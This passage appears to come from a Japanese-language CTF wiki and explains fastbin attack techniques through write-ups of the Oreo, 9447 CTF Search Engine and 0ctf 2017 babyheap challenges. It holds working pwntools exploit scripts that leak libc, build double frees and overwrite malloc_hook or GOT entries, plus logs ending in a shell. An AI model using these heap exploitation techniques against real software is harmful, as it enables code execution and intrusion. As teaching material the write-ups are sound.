log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

もちろん、この問題は `fast bin attack` のほかの技術でも解けます。参考文献のリンクを参照してください。

## 2015 9447 CTF : Search Engine
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/fastbin-attack/2015_9447ctf_search-engine)

### 基本情報

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```

### 基本機能

プログラムの基本機能は次のとおりです。

- 文を索引に追加する
  - サイズ v0、(unsigned int)(v0 - 1) > 0xFFFD
  - 読み込む文字列の長さは、指定したサイズと等しくなければならない
  - 索引に追加する文は毎回、前の文の上に直接作られる。
- 文の中で単語を検索する
  - サイズ v0、(unsigned int)(v0 - 1) > 0xFFFD
- 指定した長さの文字列を読み込む
  - 改行マークがある場合
    - 指定した長さの中で改行に出会わなければ、読み終えても NULL マークを設定しない
    - 指定した長さの中で改行に出会えば、そこで切り詰めて返す。
  - 改行マークがない場合
    - 指定した長さを読み切っても、NULL マークで終端しない。

### 単語の構造体

文を索引に追加する過程を分析すると、単語の構造は次のようになると分かります。

```
00000000 word_struct     struc ; (sizeof=0x28, mappedto_6)
00000000 content         dq ?
00000008 size            dd ?
0000000C padding1        dd ?
00000010 sentence_ptr    dq ?                    ; offset
00000018 len             dd ?
0000001C padding2        dd ?
00000020 next            dq ?                    ; offset
00000028 word_struct     ends
```

### ヒープメモリに関する操作

割り当て

- malloc 40 バイトを word 構造体とする
- 文または単語のために、指定したサイズを malloc する。

解放

- 削除された文を解放する
- 削除した文を検索するための一時的な単語を解放する
- 文を索引に追加するとき使われなかった単語構造体を解放する

### 脆弱性

**文を索引に追加するときに読み込む文字列が NULL で終端されない**

文を索引に追加するとき flag_enter は常に 0 なので、文を読み込むときに最後が NULL で終端されません。

```c
    _flag_enter = flag_enter;
    v4 = 0;
    while ( 1 )
    {
      v5 = &s[v4];
      v6 = fread(&s[v4], 1uLL, 1uLL, stdin);
      if ( v6 <= 0 )
        break;
      if ( *v5 == '\n' && _flag_enter )
      {
        if ( v4 )
        {
          *v5 = 0;
          return;
        }
        v4 = v6 - 1;
        if ( len <= v6 - 1 )
          break;
      }
      else
      {
        v4 += v6;
        if ( len <= v4 )
          break;
      }
    }
```

**操作数の選択の読み込み**

```c
__int64 read_num()
{
  __int64 result; // rax
  char *endptr; // [rsp+8h] [rbp-50h]
  char nptr; // [rsp+10h] [rbp-48h]
  unsigned __int64 v3; // [rsp+48h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  read_str(&nptr, 48, 1);
  result = strtol(&nptr, &endptr, 0);
  if ( endptr == &nptr )
  {
    __printf_chk(1LL, "%s is not a valid number\n", &nptr);
    result = read_num();
  }
  __readfsqword(0x28u);
  return result;
}
```

read_str は NULL を設定しないため、nptr として読み込まれたものが不正であれば、スタック上の内容が leak する可能性があります。

**索引に追加した文の解放時に NULL を設定しない**

```c
  else
  {
    free(v6);
  }
```

**単語の検索で単語を削除するとき、対応する文のポインタは解放されるだけで、NULL に設定されない**

```c
  for ( i = head; i; i = i->next )
  {
    if ( *i->sentence_ptr )
    {
      if ( LODWORD(i->size) == v0 && !memcmp((const void *)i->content, v1, v0) )
      {
        __printf_chk(1LL, "Found %d: ", LODWORD(i->len));
        fwrite(i->sentence_ptr, 1uLL, SLODWORD(i->len), stdout);
        putchar('\n');
        puts("Delete this sentence (y/n)?");
        read_str(&choice, 2, 1);
        if ( choice == 'y' )
        {
          memset(i->sentence_ptr, 0, SLODWORD(i->len));
          free(i->sentence_ptr);
          puts("Deleted!");
        }
      }
    }
  }
  free(v1);
```

毎回 i->sentence_ptr を解放する前に、この文の内容がすべて `\x00` に設定されることが分かります。単語構造体に格納されている単語は文へのポインタにすぎないため、単語も `\x00` になります。その文に対応する単語はそれでもリストの中に存在し、削除されていないため、単語を検索するたびに判定が行われます。文の内容が `\x00` に設定されているので、`*i->sentence_ptr` による検証を防げるように見えます。しかし、chunk は解放されると bin に入れられるため、chunk が fastbin でない場合や、chunk が再び割り当てられて使われている場合には、double free が起こりえます。さらに、文が `memset` されたとき、単語はどれも `\x00` になりますが、2つの `\x00` の比較によって `memcmp` の検査を回避できます。

### 攻撃

#### 攻撃の考え方

基本的な攻撃の考え方は次のとおりです。

- unsorted bin のアドレスを利用して libc のベースアドレスを leak する
- double free を利用して fastbin の循環リストを作る
- chunk を malloc_hook の付近に割り当て、malloc_hook を one_gadget に書き換える

#### libc アドレスの leak

ここでは small bin サイズの chunk を確保します。これが解放されると unsorted bin に入ります。したがって、`unsorted bin` のアドレスの先頭バイトが `\x00` でなければ、検証を通過できます。また、`\x00` を作って比較することでも、検証を通過できます。具体的には次のとおりです。

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### fastbin 循環リストの構築

最終的に malloc_hook の位置に chunk を割り当てたく、malloc_hook の付近の chunk のサイズは一般に 0x7f になります。つまり、設定する必要のある fast bin のデータバイト部分のサイズは 0x60 です。ここでは次の方法で構築します。

1. 文 a、文 b、文 c を順に索引に追加すると、このとき単語リストに索引された文の相対的な順序は c->b->a になります。文 a は 'a' * 0x5d+' d '、文 b は 'b' * 0x5d+' d '、文 c も同様とします。
2. 単語 d を索引に追加し、3つとも削除します。すると fastbin のリストの状態は a->b->c->NULL になります。これは、最初に解放されるのが文 c で、最後に解放されるのが文 a だからです。このとき、単語を検索する際の `*i->sentence_ptr` は、a と b については回避できます。
3. ここで再び単語 `\x00` の検索削除を行います。最初にたどるのは c ですが、c の検証は通りません。次にたどるのは b で、検証が通るので解放します。その次にたどるのは a で、検証は通りますが、削除しません。すると fastbin の状態は b->a->b->a->... になります。つまり b の double free が成立しています。先に libc の leak のために文を1つ作成してあるため、比較できる単語がもう1つありますが、これも削除しません。

具体的なコードは次のとおりです。

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

結果は次のとおりです。

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### malloc_hook 付近への chunk の割り当て

このとき、fastbin のリストは b->a->b->a->… なので、同じサイズの chunk を最初に確保するとき、b の fd を malloc_hook 付近の chunk `0x7fd798586aed` に設定できます(これは一例で、コードでは相対アドレスを使う必要があります)。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```

その後 b を再び割り当てるとき、b の fd はすでに malloc_hook 付近のアドレスに書き換えられているため、もう一度 chunk を割り当てると `0x7fd798586aed` を指すことになります。あとは malloc_hook を one_gadget のアドレスに書き換えれば shell が取れます。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

ここでは、one_gadget のアドレスを複数選んで試す必要があるかもしれません。one_gadget の成功には条件があるためです。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

もちろん、ここには chunk をスタックに割り当てる別の[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)もあります。

## 2017 0ctf babyheap
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/fastbin-attack/2017_0ctf_babyheap)

### 基本情報

```shell
➜  2017_0ctf_babyheap git:(master) file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
➜  2017_0ctf_babyheap git:(master) checksec babyheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64ビットのプログラムで、保護はすべて有効です。

### 基本機能

プログラムはヒープアロケータで、主に次の4つの機能があります。

```c
  puts("1. Allocate");
  puts("2. Fill");
  puts("3. Free");
  puts("4. Dump");
  puts("5. Exit");
  return printf("Command: ");
```

このうち、コマンドを読み込む関数は、指定した長さの文字列を読み込む関数によって決まります。

割り当て関数から、

```c
void __fastcall allocate(__int64 a1)
{
  signed int i; // [rsp+10h] [rbp-10h]
  signed int v2; // [rsp+14h] [rbp-Ch]
  void *v3; // [rsp+18h] [rbp-8h]

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = read_num();
      if ( v2 > 0 )
      {
        if ( v2 > 4096 )
          v2 = 4096;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Allocate Index %d\n", (unsigned int)i);
      }
      return;
    }
  }
}
```

確保する chunk の最大は 4096 です。また、各 chunk には主に3つのフィールド(使用中かどうか、ヒープブロックのサイズ、ヒープブロックの位置)があることが分かります。そのため、対応する構造体を作れます。

```
00000000 chunk           struc ; (sizeof=0x18, mappedto_6)
00000000 inuse           dq ?
00000008 size            dq ?
00000010 ptr             dq ?
00000018 chunk           ends
```

**注意:ヒープブロックは calloc で確保されるため、chunk の中身はすべて `\x00` です。**

内容を埋める機能では、内容を読み込む関数は指定した長さの内容をそのまま読み込み、文字列の終端を設定していません。**しかも興味深いことに、この指定長は私たちが指定するもので、以前に chunk を割り当てたときに指定した長さではないため、任意のヒープオーバーフローの状況が生じます。**

```c
__int64 __fastcall fill(chunk *a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = read_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].inuse);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = read_num();
      v3 = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = read_content((char *)a1[v2].ptr, v3);
      }
    }
  }
  return result;
}
```

chunk を解放する機能では、設定すべきものはすべて設定されています。

```c
__int64 __fastcall free_chunk(chunk *a1)
{
  __int64 result; // rax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = read_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].inuse);
    if ( (_DWORD)result == 1 )
    {
      LODWORD(a1[v2].inuse) = 0;
      a1[v2].size = 0LL;
      free(a1[v2].ptr);
      result = (__int64)&a1[v2];
      *(_QWORD *)(result + 16) = 0LL;
    }
  }
  return result;
}
```

dump は、対応する添字の chunk の内容を出力します。

### 攻撃の考え方

確実に言えるのは、主な脆弱性が任意の長さのヒープオーバーフローだということです。このプログラムはほとんどすべての保護が有効なので、プログラムのフローを制御するには何らかの leak が必要です。基本的な攻撃の考え方は次のとおりです。

- unsorted bin のアドレスを利用して libc のベースアドレスを leak する。
- fastbin attack を利用して chunk を malloc_hook の付近に割り当てる。

#### libc ベースアドレスの leak

unsorted bin を使って libc のベースアドレスを leak したいので、unsorted bin につなげられる chunk が必要です。したがって、その chunk は fastbin chunk であってはならず、top chunk と隣接していてもいけません。前者は fastbin に追加され、後者は fastbin でない場合に top chunk へ統合されてしまうからです。そこで、ここでは small bin の chunk を作ります。この chunk を unsorted bin に解放すると同時に、使用中のもう1つの chunk がその chunk の位置を同時に指すようにする必要があります。そうして初めて leak できます。具体的な設計は次のとおりです。

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

まず 5 つの chunk を確保し、2 つの chunk を解放します。このときのヒープの状況は次のとおりです。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```

idx0 を編集すると、確かに idx4 を指すようになっています。ここで成功するのは、ヒープが常に 4KB でアライメントされているため、idx 4 の開始アドレスの最初のバイトが必ず 0x80 になるからです。

```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修正に成功した後は次のとおりです。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

その後、再び2つ確保すると、2番目に確保されるのは idx 4 の chunk です。確保に成功させるには、idx4 の size が現在の fastbin のサイズと一致していることを保証する必要があるため、そのサイズを変更しなければなりません。確保に成功すると、idx2 が idx4 を指すようになります。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

その後、idx 4 を unsorted bin に入れたい場合、top chunk と統合されるのを防ぐため、もう1つ chunk を確保する必要があります。その後で idx4 を解放すると unsorted bin に入ります。このとき idx2 もこのアドレスを指しているため、その内容をそのまま表示すれば unsorted bin のアドレスを得られます。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```

#### chunk を malloc_hook の付近に割り当てる

malloc hook 付近の chunk のサイズは 0x7f なので、データ領域は 0x60 です。ここで再び確保するとき、対応する fastbin のリストには該当サイズの chunk がないため、ヒープアロケータの規則に従い、unsorted bin 内の chunk を順に処理して対応する bin に入れ、その後あらためて chunk の割り当てを試みます。先に解放した chunk は今回確保する chunk より大きいので、その前方から1ブロックを切り出せます。したがって idx2 は引き続きその位置を指します。そこで、同様の方法で、まず確保した chunk を解放し、その後 fd ポインタを fake chunk に書き換えれば済みます。その後、malloc_hook のポインタを書き換えれば onegadget を発動できます。

```Python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive()
```
ここでも onegadget のアドレスを何度か試す必要があるかもしれません。

## 問題

- L-CTF2016–pwn200

## 参考文献

- https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
- http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html
- https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717
